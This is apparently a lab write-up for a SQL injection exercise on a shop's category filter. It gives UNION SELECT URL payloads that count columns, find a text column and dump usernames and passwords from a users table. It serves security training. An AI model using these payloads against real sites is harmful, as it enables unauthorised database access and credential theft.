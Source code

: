 #### First we start off with out columns enumeration

```
/filter?category=Pets'+UNION+SELECT+null--            #Error response
/filter?category=Pets'+UNION+SELECT+null,null--       #200 OK
/filter?category=Pets'+UNION+SELECT+null,null,null--  #Error response
```

#### Next we check which column we can inject our code

```
/filter?category=Pets' union select 'a',null--        #Error response
/filter?category=Pets' union select null,'a'--        #200 OK
```

#### Following the same procedure as the last lab we get username and password column. So, next we use the mysql concat() function to print all the username and passwords

```
/filter?category=Pets' union select null,concat(username,'---',password) from users--
```

### Results
![image](https://user-images.githubusercontent.com/86168235/125508688-b4ddb8a3-214c-4a55-b992-771b9ee4331a.png)
